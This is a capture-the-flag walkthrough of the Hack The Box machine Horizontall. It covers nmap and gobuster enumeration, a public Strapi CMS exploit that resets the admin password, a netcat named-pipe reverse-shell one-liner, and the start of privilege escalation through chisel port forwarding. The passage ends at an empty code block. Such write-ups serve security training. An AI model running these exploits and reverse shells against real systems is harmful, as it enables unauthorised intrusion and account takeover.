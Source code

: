 ```yaml
---
layout: default
title : muzec - Horizontall HTB Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/148056566-bbff1385-857b-4625-8ab1-6a2af94f624c.png)

We always start with an nmap scan.....

```
nmap -p- --min-rate 10000 -oA nmap/allports -v IP
```

```
# Nmap 7.91 scan initiated Thu Dec 30 08:30:37 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.10.11.105
Warning: 10.10.11.105 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.10.11.105 from 320 to 640 due to 570 out of 1899 dropped probes since last increase.
Increasing send delay for 10.10.11.105 from 640 to 1000 due to 1398 out of 4658 dropped probes since last increase.
Nmap scan report for 10.10.11.105
Host is up (0.24s latency).
Not shown: 52107 closed ports, 13426 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec 30 08:31:48 2021 -- 1 IP address (1 host up) scanned in 70.64 seconds
```

Interesting two open ports let throw some service detection and scripts switch on it to confirm wwhat we have running on it we can already see it `SSH and HTTP` but let keep it flashy lol.


```
nmap -sC -sV -oA nmap/normal -p 22,80 IP
```

```
# Nmap 7.91 scan initiated Thu Dec 30 08:32:40 2021 as: nmap -sC -sV -oA nmap/normal -p 22,80 10.10.11.105
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 08:32:58 2021 -- 1 IP address (1 host up) scanned in 18.10 seconds
```

Now that is more flashy we are checking the `HTTP` first make sure to add `IP` and `horizontall.htb` to your host file. 

![image](https://user-images.githubusercontent.com/69868171/148058010-51883f76-4001-4249-8ff8-5b81caaeadb8.png)

Now next thing to do is to check the source page but we got nothing let burst some directories and subdomain to find some hidden page.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]                                                                                                              
└─$ gobuster dir -u http://horizontall.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak,sh -o gobuster.req
/index.html           (Status: 200) [Size: 901]
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```

But i got nothing on the domain let check subdomain.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ gobuster vhost -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
```

Boom we got a subdomain which is cool add again to our host file now let access it to see what in store for us.

![image](https://user-images.githubusercontent.com/69868171/148062275-4fb13163-e6d1-4efc-8fbc-1dd8d154b02d.png)

We got a welcome message and the rest is blank so i try adding `/admin` and the back of the subdomain you can also burst directories you will get it i just guess it and boom it work.

![image](https://user-images.githubusercontent.com/69868171/148062675-e9ac9161-42c1-46fa-893c-44a25d29fc5c.png)

Seems we are dealing with `strapi cms` using some default credentials and we got no luck let see wwhat we can find on google.

```
http://api-prod.horizontall.htb/admin/strapiVersion
```

![image](https://user-images.githubusercontent.com/69868171/148063058-83731e9c-e26b-42a0-a275-8d7dff3a6a5d.png)

We found the version let confirm if the version is vulnerable.

![image](https://user-images.githubusercontent.com/69868171/148063158-3b9f1297-0025-438b-82e4-63185c98da86.png)

Boom let download the exploit to try it out.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ python3 50239.py http://api-prod.horizontall.htb/
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxMzAxNDYxLCJleHAiOjE2NDM4OTM0NjF9.50jv0hWWZ3KBCn-U0EIA2qNHkE7e4ddOrksf0yQuzbI


$> 
```

We are in but when i try to run a command i got some error.

![image](https://user-images.githubusercontent.com/69868171/148063509-0ca789cf-2460-4239-902c-24fb3088a990.png)

Smooth let try to transfer the shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Ncat ready to catch the reverse shell.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ nc -nvlp 1337 
listening on [any] 1337 ...
```

![image](https://user-images.githubusercontent.com/69868171/148063865-42bb052d-091e-43af-ab79-5c068c273ffa.png)

Boom more better let spawn a full tty shell.

![image](https://user-images.githubusercontent.com/69868171/148064159-1c37afcb-c021-47a0-9400-2910af4c55df.png)

Now let get the `user.txt` first.

![image](https://user-images.githubusercontent.com/69868171/148064371-d5a6ccdf-8b9e-4c78-af23-be84f14e9a9d.png)

Boom now let try to move our privilege.

![image](https://user-images.githubusercontent.com/69868171/148064681-013ed459-8775-447e-8745-780e199c84a3.png)

Found a credentials but when i try to use it for the user `developer` i got no luck so let check for `SUID` .

![image](https://user-images.githubusercontent.com/69868171/148064882-ee502a39-1232-45d7-a933-3c47ae9e8fb6.png)

Nothing also let check what ports we have running locally with us.

```
ss -tulpn
```

![image](https://user-images.githubusercontent.com/69868171/148064999-3cb0bfda-e916-4888-8359-c9e7fd9a98f9.png)

Boom we have a port let try to port forward using `chisel` first of all we need to transfer a copy of `chisel` binary to the target.

![image](https://user-images.githubusercontent.com/69868171/148065402-e6d6b3b0-913e-4d0c-b011-6331017f362c.png)

Now let start the server on our attacking machine.

```
